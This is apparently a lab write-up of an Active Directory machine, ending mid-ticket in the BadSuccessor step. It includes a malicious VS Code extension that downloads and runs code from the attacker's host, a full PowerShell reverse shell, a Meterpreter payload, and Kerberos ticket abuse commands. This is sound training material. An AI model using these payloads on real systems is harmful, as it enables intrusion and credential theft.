

|Property|Value|
|---|---|
|**OS**|Windows|
|**Difficulty**|Medium|
|**Release Date**|2026-06-13|
|**State**|Active|
|**IP**|10.129.36.37|
|**Techniques**|AD deleted-object restore, ACL abuse, SMB share write abuse, malicious VSIX RCE, Kerberos TGT delegation, BadSuccessor (dMSA) abuse, memory forensics, DSRM credential Pass-the-Hash|
|**Tags**|#ad #windows #privesc #smb #kerberos #dmsa|

---
## Summary

Checkpoint is a medium Windows machine built around Active Directory. Initial credentials for the user `alex.turner` are provided. Enumerating AD objects writable by `alex.turner` discloses a deleted user, `mark.davies`, who can be restored from the `Deleted Objects` container. `mark.davies` reuses `alex.turner`'s password and holds write access to `DevDrop`, a custom SMB share used to upload VS Code `.vsix` extension packages. A malicious `.vsix` extension containing a PowerShell reverse shell payload can be dropped into the share and executed, granting a shell as `ryan.brooks`.

Since no credentials are known for `ryan.brooks`, Rubeus' `tgtdeleg` is used to extract a usable Kerberos TGT for the current user without elevation or a password. The ticket is converted into a Linux-compatible `ccache` and used to enumerate AD objects writable by `ryan.brooks`, revealing the ability to create a delegated Managed Service Account (dMSA) in an `OU=DMSAHolder` container. 
This is leveraged to perform a **BadSuccessor** attack (CVE-2025-53779) against the `svc_deploy` service account: a malicious dMSA is created and linked as the "successor" of `svc_deploy`, tricking the KDC into issuing a Kerberos ticket that discloses `svc_deploy`'s real NTLM/Kerberos keys. 

With `svc_deploy`'s hash, the `VMBackups` share is accessed, exposing a full memory snapshot (`.vmem`) of a domain controller backup. Parsing the snapshot with Volatility 3 allows the `SAM`, `SYSTEM`, and `SECURITY` registry hives to be dumped, and `secretsdump` recovers the local (DSRM) Administrator NTLM hash. The DSRM account is configured to allow network authentication and the password is kept in sync with the domain `Administrator` account, meaning a recovered hash is valid for the real domain Administrator, and a Pass-the-Hash login via WinRM grants full domain compromise.

> **Note:** The machine's IP address changes across sections of this writeup due to multiple restarts (`10.129.36.37`, `10.129.30.86`, `10.129.31.99`, `10.129.37.153`).

---
## Enumeration

```
echo '10.129.36.37 checkpoint.htb' | sudo tee -a /etc/hosts
```

Added the IP address of the machine to the `/etc/hosts` file.

### Nmap Scan

```
nmap -sCV checkpoint.htb   
Starting Nmap 7.95 ( https://nmap.org ) at 2026-06-25 14:34 EDT
Nmap scan report for checkpoint.htb (10.129.36.37)
Host is up (0.13s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE           VERSION
53/tcp   open  domain            Simple DNS Plus
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2026-06-26 01:34:59Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: checkpoint.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: checkpoint.htb0., Site: Default-First-Site-Name)
3269/tcp open  globalcatLDAPssl?
5985/tcp open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-06-26T01:35:20
|_  start_date: N/A
|_clock-skew: 6h59m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 80.09 seconds
```

The host is the domain controller (`DC01`) for `checkpoint.htb`, exposing the standard AD services (DNS, Kerberos, LDAP/LDAPS, SMB, RPC) alongside WinRM on port 5985.

### Service Enumeration

#### SMB Shares

Credentials for `alex.turner` are provided as a starting point. Enumerating shares with `nxc`:

```
nxc smb checkpoint.htb -u "alex.turner" -p 'Checkpoint2024!' --shares
SMB         10.129.30.86    445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:checkpoint.htb) (signing:True) (SMBv1:False) 
SMB         10.129.30.86    445    DC01             [+] checkpoint.htb\alex.turner:Checkpoint2024! 
SMB         10.129.30.86    445    DC01             [*] Enumerated shares
SMB         10.129.30.86    445    DC01             Share           Permissions     Remark
SMB         10.129.30.86    445    DC01             -----           -----------     ------
SMB         10.129.30.86    445    DC01             ADMIN$                          Remote Admin
SMB         10.129.30.86    445    DC01             C$                              Default share
SMB         10.129.30.86    445    DC01             DevDrop         READ            VS Code extensions share for approved .vsix packages compatible with VS Code engine 1.118.0
SMB         10.129.30.86    445    DC01             IPC$            READ            Remote IPC
SMB         10.129.30.86    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.30.86    445    DC01             SYSVOL          READ            Logon server share 
SMB         10.129.30.86    445    DC01             VMBackups
```

`DevDrop`  is a non default share used for uploading `.vsix` (VS Code extension) packages. The Domain Controller build is a **Windows Server 2025** DC, which matters for the dMSA/BadSuccessor abuse later on, since delegated Managed Service Accounts only exist on that OS version.

#### Domain Users

```
nxc smb checkpoint.htb -u "alex.turner" -p 'Checkpoint2024!' --users 
SMB         10.129.30.86    445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:checkpoint.htb) (signing:True) (SMBv1:False) 
SMB         10.129.30.86    445    DC01             [+] checkpoint.htb\alex.turner:Checkpoint2024! 
SMB         10.129.30.86    445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.129.30.86    445    DC01             Administrator                 2026-05-09 16:16:34 0       Built-in account for administering the computer/domain 
SMB         10.129.30.86    445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.129.30.86    445    DC01             krbtgt                        2026-05-09 08:41:01 0       Key Distribution Center Service Account 
SMB         10.129.30.86    445    DC01             alex.turner                   2026-05-09 09:00:08 0        
SMB         10.129.30.86    445    DC01             ryan.brooks                   2026-05-10 13:46:18 0        
SMB         10.129.30.86    445    DC01             svc_deploy                    2026-05-09 09:01:19 0       Deployment service account 
SMB         10.129.30.86    445    DC01             james.harper                  2026-05-09 09:02:53 0        
SMB         10.129.30.86    445    DC01             sarah.mitchell                2026-05-09 09:02:58 0        
SMB         10.129.30.86    445    DC01             emily.carter                  2026-05-09 09:03:05 0        
SMB         10.129.30.86    445    DC01             david.reynolds                2026-05-09 09:03:11 0        
SMB         10.129.30.86    445    DC01             jessica.coleman               2026-05-09 09:03:15 0        
SMB         10.129.30.86    445    DC01             lauren.flores                 2026-05-09 09:03:21 0        
SMB         10.129.30.86    445    DC01             michael.torres                2026-05-09 09:03:28 0        
SMB         10.129.30.86    445    DC01             kevin.patterson               2026-05-09 09:03:33 0        
SMB         10.129.30.86    445    DC01             brian.jenkins                 2026-05-09 09:03:37 0        
SMB         10.129.30.86    445    DC01             megan.perry                   2026-05-09 09:03:42 0        
SMB         10.129.30.86    445    DC01             max.palmer                    2026-05-26 01:25:15 0        
SMB         10.129.30.86    445    DC01             [*] Enumerated 17 local users: CHECKPOINT
```

`svc_deploy` ("Deployment service account") and `ryan.brooks` stand out as targets of interest for later stages.

#### Writable AD Objects

```
bloodyAD --host checkpoint.htb --dns 10.129.30.86 \
  -d checkpoint.htb -u alex.turner -p 'Checkpoint2024!' get writable
```

```
distinguishedName: CN=Deleted Objects,DC=checkpoint,DC=htb
DACL: WRITE

distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=checkpoint,DC=htb
permission: WRITE

distinguishedName: OU=Employees,DC=checkpoint,DC=htb
permission: CREATE_CHILD

distinguishedName: CN=Alex Turner,OU=Employees,DC=checkpoint,DC=htb
permission: WRITE

distinguishedName: CN=Mark Davies\0ADEL:2217e877-e2a2-47d7-91d4-99ede36f367e,CN=Deleted Objects,DC=checkpoint,DC=htb
permission: WRITE

distinguishedName: DC=checkpoint.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=checkpoint,DC=htb
permission: CREATE_CHILD

distinguishedName: DC=_msdcs.checkpoint.htb,CN=MicrosoftDNS,DC=ForestDnsZones,DC=checkpoint,DC=htb
permission: CREATE_CHILD
```

`alex.turner` has `WRITE` permission on the `Deleted Objects` container, and specifically on a tombstoned object, `Mark Davies`. A deleted AD object retains its DACL for a configurable retention period, so write access here can be leveraged to restore the account.

#### Restoring `mark.davies`

```
bloodyAD --host checkpoint.htb --dns 10.129.30.86 \
  -d checkpoint.htb -u alex.turner -p 'Checkpoint2024!' \
  set restore 'CN=Mark Davies\0ADEL:2217e877-e2a2-47d7-91d4-99ede36f367e,CN=Deleted Objects,DC=checkpoint,DC=htb'
```

```
[+] CN=Mark Davies\0ADEL:2217e877-e2a2-47d7-91d4-99ede36f367e,CN=Deleted Objects,DC=checkpoint,DC=htb has been restored successfully under CN=Mark Davies,OU=Employees,DC=checkpoint,DC=htb
```

The object is restored under `OU=Employees`, with its original attributes intact.

#### Share Access as `mark.davies`

`mark.davies` shares the same password as `alex.turner`. Checking share permissions:

```
┌──(kali㉿kali)-[~]
└─$ nxc smb checkpoint.htb -u "mark.davies" -p 'Checkpoint2024!' --shares
SMB         10.129.31.99    445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:checkpoint.htb) (signing:True) (SMBv1:False) 
SMB         10.129.31.99    445    DC01             [+] checkpoint.htb\mark.davies:Checkpoint2024! 
SMB         10.129.31.99    445    DC01             [*] Enumerated shares
SMB         10.129.31.99    445    DC01             Share           Permissions     Remark
SMB         10.129.31.99    445    DC01             -----           -----------     ------
SMB         10.129.31.99    445    DC01             ADMIN$                          Remote Admin
SMB         10.129.31.99    445    DC01             C$                              Default share
SMB         10.129.31.99    445    DC01             DevDrop         READ,WRITE      VS Code extensions share for approved .vsix packages compatible with VS Code engine 1.118.0
SMB         10.129.31.99    445    DC01             IPC$            READ            Remote IPC
SMB         10.129.31.99    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.31.99    445    DC01             SYSVOL          READ            Logon server share 
SMB         10.129.31.99    445    DC01             VMBackups
```

`mark.davies` has `READ,WRITE` access to `DevDrop`.

---
## Foothold

### .vsix Extension via DevDrop

The`DevDrop`share can be used to upload .vsix packages compatible with VS Code engine `1.118.0`. A `.vsix` file is an extension package used by Microsoft development environments like Visual Studio and Visual Studio Code. It functions as a compressed ZIP archive that contains the extension's code, assets, and metadata, allowing developers to easily install custom tools, languages, and themes.

Since no signing or origin validation is enforced before installation, write access to `DevDrop` is equivalent to arbitrary code execution as whoever runs that process: a crafted `.vsix` package can register an `activate()` hook that runs immediately once VS Code loads the extension.

### Exploitation

Extension, which upon activation downloads the PowerShell reverse shell payload:

```
cat extension.js
const cp = require('child_process');
function activate(context) {
    cp.exec('powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString(\'http://10.10.14.205:8000/revshell.ps1\')"');
}
module.exports = { activate };
```

Package manifest:

```
cat package.json
{
  "name": "revshell",
  "version": "1.0.0",
  "engines": { "vscode": "^1.118.0" },
  "main": "./extension.js",
  "activationEvents": ["*"]
}
```

PowerShell reverse shell payload, served separately and pulled by `extension.js`:

```
cat revshell.ps1
$LHOST = "10.10.14.205"; $LPORT = 9001; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()
```

Packaging the `.vsix`:

```
vsce package --no-dependencies --allow-missing-repository
 WARNING  Using '*' activation is usually a bad idea as it impacts performance.
More info: https://code.visualstudio.com/api/references/activation-events#Start-up
Use --allow-star-activation to bypass.
Do you want to continue? [y/N] y
 WARNING  LICENSE, LICENSE.md, or LICENSE.txt not found
Do you want to continue? [y/N] y
 WARNING  Neither a .vscodeignore file nor a "files" property in package.json was found. To ensure only necessary files are included in your extension, add a .vscodeignore file or specify the "files" property in package.json. More info: https://aka.ms/vscode-vscodeignore

 INFO  Files included in the VSIX:
revshell-1.0.0.vsix
├─ [Content_Types].xml 
├─ extension.vsixmanifest 
└─ extension/
   ├─ extension.js [0.23 KB]
   ├─ package.json [0.14 KB]
   └─ revshell.ps1 [0.78 KB]

 DONE  Packaged: /home/kali/htb-machines/checkpoint/vsix-payload/revshell-1.0.0.vsix (5 files, 2.05 KB)
```

Serving the payload files and uploading the `.vsix` to `DevDrop` as `mark.davies`:

```
python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```
smbclient -U mark.davies //checkpoint.htb/DevDrop --password=Checkpoint2024!
Try "help" to get a list of possible commands.
smb: \> put revshell-1.0.0.vsix
putting file revshell-1.0.0.vsix as \revshell-1.0.0.vsix (4.0 kB/s) (average 4.0 kB/s)
```

The installer picks up the extension and triggers `activate()`, downloading and executing the PowerShell reverse shell.

---
## User Flag

```
$ nc -lvnp 9001    
listening on [any] 9001 ...
connect to [10.10.14.205] from (UNKNOWN) [10.129.36.37] 49923
whoami
checkpoint\ryan.brooks
cd c:\users\ryan.brooks\desktop

dir
user.txt
type user.txt
2202************************2dee
```

### Shell Upgrade

A meterpreter payload is generated with `msfvenom` to get a more stable reverse shell:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.205 LPORT=4445 -f exe -o meterpreter.exe
python3 -m http.server 8001
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7680 bytes
Saved as: meterpreter.exe
Serving HTTP on 0.0.0.0 port 8001 (http://0.0.0.0:8001/) ...
```

Downloaded and executed from the existing shell on the target:

```
iwr http://10.10.14.205:8001/meterpreter.exe -OutFile meterpreter.exe
```

```
.\meterpreter.exe
```

Catching the session with a Metasploit multi/handler:

```
msfconsole -q 
msf > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost tun0
lhost => 10.10.14.205
msf exploit(multi/handler) > set lport 4445
lport => 4445
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.14.205:4445 
[*] Sending stage (230982 bytes) to 10.129.36.37
[*] Meterpreter session 1 opened (10.10.14.205:4445 -> 10.129.36.37:61837) at 2026-06-25 15:39:51 -0400

meterpreter > shell
```

A stable `cmd.exe`/PowerShell shell as `ryan.brooks` is now available, but no plaintext password or NTLM hash for the account is known. This denies direct use of credential-based Kerberos tools (`bloodyAD`, `nxc -k`, `Rubeus` with `/password` or `/rc4`) from the attacking host unless a usable ticket is extracted first.

---
## Privilege Escalation

### Extracting a TGT for `ryan.brooks`

An unprivileged user session on Windows cannot directly export its own TGT from the LSA cache without local administrator rights (e.g. via Mimikatz sekurlsa::tickets). To bypass this restriction, Rubeus’ `tgtdeleg` action exploits a Kerberos GSS-API/SSPI "fake delegation" trick. 
By requesting a Kerberos security context against a service trusted for unconstrained delegation (such as a Domain Controller’s `cifs/<dc-fqdn>` SPN), the local LSA automatically embeds a TGT inside the resulting `AP-REQ` ticket. Because the tool controls the security context, it can use the corresponding session key to decrypt the `AP-REQ` structure and extract a fully functional TGT. This allows a standard user to recover their own TGT entirely in user space, completely bypassing the need for administrative elevation, cleartext passwords, or NTLM hashes.

```
PS C:\users\ryan.brooks> .\rubeus.exe tgtdeleg /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.6.4 


[*] Action: Request Fake Delegation TGT (current user)

[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/DC01.checkpoint.htb'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: hCvb5gqEj/edC5Un8i8P5p+9wctAELuPX424zUijLRM=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

      doIF1DCCBdCgAwIBBaEDAgEWooIE0DCCBMxhggTIMIIExKADAgEFoRAbDkNIRUNLUE9JTlQuSFRCoiMwIaADAgECoRowGBsGa3JidGd0Gw5DSEVDS1BPSU5ULkhUQqOCBIQwggSAoAMCARKhAwIBAqKCBHIEggRuRt9tRn/W2O9rJq7p1gUeNxth4CUBLlPt55NzAV7fJu4+1p43vMuI6vcSxUwZ6UDGEw3sVuTd52rYnY5tLD7aRhFwtS7eIymqVWsuIgIk89k21UTegmDYEmt8nQ2AWqGLYomGTgsBQ/46itCxHgKh3Obtgb18WPkGbmdbhaoJU4KCo8AvRGNakb1RGa7yhjJ2durq3X+eAylU4WU2aG5nl33CRmFny0ffMKOcKJqX87Mr8bAlPJdjjMb1RHJk2d5vbJsTtMcAd4few4552stANCCdHx0yATmXR8SUUZHUoN8D+/ztJrRig0DEm8/hPgOM1aFL9sjeOcnQ1IxO6+TIqHbGf4wr9g2cMBbsFs3ZYsDXkgA+lWKfE9yHliToi/M3ZNBpZCs+ztcPK+b1buGoIaLRM6vcxy8EJWOsvXdyCOVBbOEo+6UqAnHTuObpEVHhrpDh1NF2uCcNmzvHjfjNL3mGFUJjNqp3/TsRJcBoU3uUTt8ekIVfjYz5sb8/M4/PFTYsXeAb5wZ8E5DPiJDUvaSM8KVBFlExIyEWxOGd4/fvQ8EOqxLT/97PVW3itQ5lrEpkYwECsomioR4R/Y99s1YpEWsnScsqt/gQmUVgGvU8yxPiqrEISiUVIJSGoMX5vQskLcCCrQKdTq4+wupY3eiMIus0AfasiXQZALUvEwEH7+7Nv8ihUs+pg2oNHc5niQNFHWzrYDGcetJi50qw2gnF2PNYpsHmvjh0YP9wqrjYteTbc5TcdSsswKF2RjdxAO6uAwSE+aR3uV9nYRfRyvxKmKkopHstcB/hi6h6QSHQMLIwgrpiXuJ9BVUGt981UMSEi8AO2zEkron40ssRawRw35P/adrNE73A4RcLqsVpATr53sDlyP/8bZgmiv01FD4UOc+teOZSPV5A7rjnEespaAiXWc5HCNIGLHJphogS64/Hwj5eWXgFkZk34EPb/SWoe9f34MX4hB+6WBxWXERUnvhY8824z6AoSnzvRS2v9NILaMLNOrz9NXdSEW4S5dLHFG9ETk6YPLOGwom7JeLVSI3aw38ghl0OshzMsTwVf4xjQPeh8qXuVUHik8yUWNmEnWCogmAlO34BD+JnQm9KItN06zOnK25wOW5lX50H+RV/Fl5ump2prm1PPdDs21E3DZChk+oDaKNw/F1IIURl1nj8XGXeL+ePws5DiHjoJRlKgM6l/G9Yq19P7RBC9jQ0Po0hYdSnwc1dlNfoNAKLOSA8mnJyaPttlH/CE30xLISn2HQvBzECwqe420RBiinGdmiTbYEESCBG8f7xzqSDvdrEBNJNuEFTNpTZSAKxXfl9UZ/j23Fkl+awfGYNbhVbo4J+H7rhbIC5PvIAwVU2ZYaRrKCAH3UyO5l9MNjh5+I2dnhtsa6Yyod8OdDK1+EbwpjzVtV/z6ztLrQrCGBci6r3s8nnf4HdQV/cQR5JOtqZXJKL48lZfafOS9+iT0ed29ctjKZxwIKKVjt6861qyWuMq2Vy+SXCfYfMo4HvMIHsoAMCAQCigeQEgeF9gd4wgduggdgwgdUwgdKgKzApoAMCARKhIgQgKtLMM4uBItX4EE/3a7x90R30KXaKpXYyfVVKA4JqRWGhEBsOQ0hFQ0tQT0lOVC5IVEKiGDAWoAMCAQGhDzANGwtyeWFuLmJyb29rc6MHAwUAYKEAAKURGA8yMDI2MDcwMTAyMTI1NVqmERgPMjAyNjA3MDExMjEyNTVapxEYDzIwMjYwNzA4MDIxMjU1WqgQGw5DSEVDS1BPSU5ULkhUQqkjMCGgAwIBAqEaMBgbBmtyYnRndBsOQ0hFQ0tQT0lOVC5IVEI=
PS C:\users\ryan.brooks> 
```

### Converting the Ticket for Linux Tools

The base64 ticket is copied to the Kali host so it can be used with `impacket`and `bloodyAD` instead of native Windows Kerberos APIs:

```
cat ryan.b64      
doIF1DCCBdCgAwIBBaEDAgEWooIE0DCCBMxhggTIMIIExKADAgEFoRAbDkNIRUNLUE9JTlQuSFRCoiMwIaADAgECoRowGBsGa3JidGd0Gw5DSEVDS1BPSU5ULkhUQqOCBIQwggSAoAMCARKhAwIBAqKCBHIEggRuRt9tRn/W2O9rJq7p1gUeNxth4CUBLlPt55NzAV7fJu4+1p43vMuI6vcSxUwZ6UDGEw3sVuTd52rYnY5tLD7aRhFwtS7eIymqVWsuIgIk89k21UTegmDYEmt8nQ2AWqGLYomGTgsBQ/46itCxHgKh3Obtgb18WPkGbmdbhaoJU4KCo8AvRGNakb1RGa7yhjJ2durq3X+eAylU4WU2aG5nl33CRmFny0ffMKOcKJqX87Mr8bAlPJdjjMb1RHJk2d5vbJsTtMcAd4few4552stANCCdHx0yATmXR8SUUZHUoN8D+/ztJrRig0DEm8/hPgOM1aFL9sjeOcnQ1IxO6+TIqHbGf4wr9g2cMBbsFs3ZYsDXkgA+lWKfE9yHliToi/M3ZNBpZCs+ztcPK+b1buGoIaLRM6vcxy8EJWOsvXdyCOVBbOEo+6UqAnHTuObpEVHhrpDh1NF2uCcNmzvHjfjNL3mGFUJjNqp3/TsRJcBoU3uUTt8ekIVfjYz5sb8/M4/PFTYsXeAb5wZ8E5DPiJDUvaSM8KVBFlExIyEWxOGd4/fvQ8EOqxLT/97PVW3itQ5lrEpkYwECsomioR4R/Y99s1YpEWsnScsqt/gQmUVgGvU8yxPiqrEISiUVIJSGoMX5vQskLcCCrQKdTq4+wupY3eiMIus0AfasiXQZALUvEwEH7+7Nv8ihUs+pg2oNHc5niQNFHWzrYDGcetJi50qw2gnF2PNYpsHmvjh0YP9wqrjYteTbc5TcdSsswKF2RjdxAO6uAwSE+aR3uV9nYRfRyvxKmKkopHstcB/hi6h6QSHQMLIwgrpiXuJ9BVUGt981UMSEi8AO2zEkron40ssRawRw35P/adrNE73A4RcLqsVpATr53sDlyP/8bZgmiv01FD4UOc+teOZSPV5A7rjnEespaAiXWc5HCNIGLHJphogS64/Hwj5eWXgFkZk34EPb/SWoe9f34MX4hB+6WBxWXERUnvhY8824z6AoSnzvRS2v9NILaMLNOrz9NXdSEW4S5dLHFG9ETk6YPLOGwom7JeLVSI3aw38ghl0OshzMsTwVf4xjQPeh8qXuVUHik8yUWNmEnWCogmAlO34BD+JnQm9KItN06zOnK25wOW5lX50H+RV/Fl5ump2prm1PPdDs21E3DZChk+oDaKNw/F1IIURl1nj8XGXeL+ePws5DiHjoJRlKgM6l/G9Yq19P7RBC9jQ0Po0hYdSnwc1dlNfoNAKLOSA8mnJyaPttlH/CE30xLISn2HQvBzECwqe420RBiinGdmiTbYEESCBG8f7xzqSDvdrEBNJNuEFTNpTZSAKxXfl9UZ/j23Fkl+awfGYNbhVbo4J+H7rhbIC5PvIAwVU2ZYaRrKCAH3UyO5l9MNjh5+I2dnhtsa6Yyod8OdDK1+EbwpjzVtV/z6ztLrQrCGBci6r3s8nnf4HdQV/cQR5JOtqZXJKL48lZfafOS9+iT0ed29ctjKZxwIKKVjt6861qyWuMq2Vy+SXCfYfMo4HvMIHsoAMCAQCigeQEgeF9gd4wgduggdgwgdUwgdKgKzApoAMCARKhIgQgKtLMM4uBItX4EE/3a7x90R30KXaKpXYyfVVKA4JqRWGhEBsOQ0hFQ0tQT0lOVC5IVEKiGDAWoAMCAQGhDzANGwtyeWFuLmJyb29rc6MHAwUAYKEAAKURGA8yMDI2MDcwMTAyMTI1NVqmERgPMjAyNjA3MDExMjEyNTVapxEYDzIwMjYwNzA4MDIxMjU1WqgQGw5DSEVDS1BPSU5ULkhUQqkjMCGgAwIBAqEaMBgbBmtyYnRndBsOQ0hFQ0tQT0lOVC5IVEI=
```

Decoding the base64 blob into a raw Kerberos `.kirbi` ticket and converting it into a `ccache` file with `impacket-ticket-Converter`:

```
base64 -d ryan.b64 > ryan.kirbi
```

```
impacket-ticketConverter ryan.kirbi ryan.ccache
Impacket v0.14.0.dev0+20251120.95652.9c2d8b61 - Copyright Fortra, LLC and its affiliated companies 

[*] converting kirbi to ccache...
[+] done
```

`ryan.ccache` can now be used with tools that support `KRB5CCNAME` (`bloodyAD -k`, `nxc smb -k`, `impacket-*` with `-k -no-pass`) to authenticate as `ryan.brooks` over Kerberos without knowing the account's password or hash.

### Enumerating Writable AD Objects as `ryan.brooks`

```
bloodyAD -k ccache=ryan.ccache --dc-ip 10.129.37.153 --host dc01.checkpoint.htb -d checkpoint.htb get writable                                        
Clock skew detected. Adjusting local time by 6:59:56.658020. Retrying operation.
distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=checkpoint,DC=htb
permission: WRITE
distinguishedName: OU=DMSAHolder,DC=checkpoint,DC=htb
permission: CREATE_CHILD
distinguishedName: CN=Ryan Brooks,OU=Employees,DC=checkpoint,DC=htb
permission: WRITE
distinguishedName: CN=svc_deploy,OU=ServiceAccounts,DC=checkpoint,DC=htb
permission: WRITE
distinguishedName: DC=checkpoint.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=checkpoint,DC=htb
permission: CREATE_CHILD
distinguishedName: DC=_msdcs.checkpoint.htb,CN=MicrosoftDNS,DC=ForestDnsZones,DC=checkpoint,DC=htb
permission: CREATE_CHILD
```

Two entries stand out beyond the expected defaults (`WRITE` on the `S-1-5-11` foreign security principal and on `ryan.brooks`'s own object): 
`ryan.brooks` holds `CREATE_CHILD` on `OU=DMSAHolder`, meaning it can create new objects, including a delegated Managed Service Account, inside that OU, and separately holds `WRITE` directly on **`svc_deploy`**'s AD object. 

Confirmed with BloodHound:



The combination of `CREATE_CHILD` on an OU plus a privileged target elsewhere in the domain is the primitive the BadSuccessor attack abuses.

### BadSuccessor (dMSA) Privilege Escalation

Windows Server 2025 introduced **delegated Managed Service Accounts (dMSAs)**, intended to let administrators migrate a legacy account (user, computer, or classic service account) to a managed, auto-rotating credential without service downtime. 
During a supported migration, an administrator links the new dMSA to the legacy account via the `msDS-ManagedAccountPrecededByLink` attribute and sets `msDS-DelegatedMSAState = 2` to mark the migration as complete. From that point on, the Key Distribution Center (KDC) treats the dMSA as the legitimate successor of the legacy account: when the dMSA authenticates, its Kerberos PAC is built using the target account's group memberships and SIDs, and to support a smooth credential rollover the resulting TGT also carries the target account's own current Kerberos keys inside a `KERB-DMSA-KEY-PACKAGE` structure.

The vulnerability, disclosed by Akamai researcher Yuval Gordon in May 2025 and named **BadSuccessor**, is that the KDC never actually verifies that a real migration took place. The only thing it checks is whether the requester was able to set those two attributes on a dMSA object. 

A dMSA object can be created anywhere an attacker holds `CREATE_CHILD` rights on an OU, since dMSAs are not restricted to a protected container by default. In practice, any principal who can create a dMSA in some OU can immediately point `msDS-ManagedAccountPrecededByLink` at _any_ other account in the domain, including Domain Admins, and inherit its full privileges, without ever touching the target account itself, changing any group membership, or completing a real migration. Microsoft initially rated the issue as "Moderate" and shipped no immediate fix; it was eventually assigned **CVE-2025-53779** and patched in the August 2025 Patch Tuesday release.

With `CREATE_CHILD` confirmed on `OU=DMSAHolder`, the dMSA is created there directly as `ryan.brooks` and linked as the successor of `svc_deploy`:

```
bloodyAD -k ccache=ryan.ccache -u ryan.brooks --dc-ip 10.129.37.153 --host dc01.checkpoint.htb -d checkpoint.htb add badSuccessor Pwned -t "CN=svc_deploy,OU=ServiceAccounts,DC=checkpoint,DC=htb" --ou "OU=DMSAHolder,DC=checkpoint,DC=htb"
Clock skew detected. Adjusting local time by 6:59:57.413658. Retrying operation.
[+] Creating DMSA Pwned$ in OU=DMSAHolder,DC=checkpoint,DC=htb
[+] Impersonating: CN=svc_deploy,OU=ServiceAccounts,DC=checkpoint,DC=htb
Clock skew detected. Adjusting local time by 6:59:56.875476. Retrying operation.

Realm        : CHECKPOINT.HTB
Sname        : krbtgt/CHECKPOINT.HTB
UserName     : Pwned$
UserRealm    : checkpoint.htb
StartTime    : 2026-07-01 02:31:25+00:00
EndTime      : 2026-07-01 12:12:55+00:00
RenewTill    : 2026-07-08 02:12:55+00:00
Flags        : forwarded, enc-pa-rep, renewable, forwardable, pre-authent
Keytype      : 18
Key          : PHkGJyB2lCE5FaJnJcxGsp7VSYPvPsV9mbjo+dzO7UU=
EncodedKirbi : 

    doIFuzCCBbegAwIBBaEDAgEWooIEqzCCBKdhggSjMIIEn6ADAgEFoRAbDkNIRUNLUE9JTlQuSFRCoiMwIaADAgECoRowGBsGa3Ji
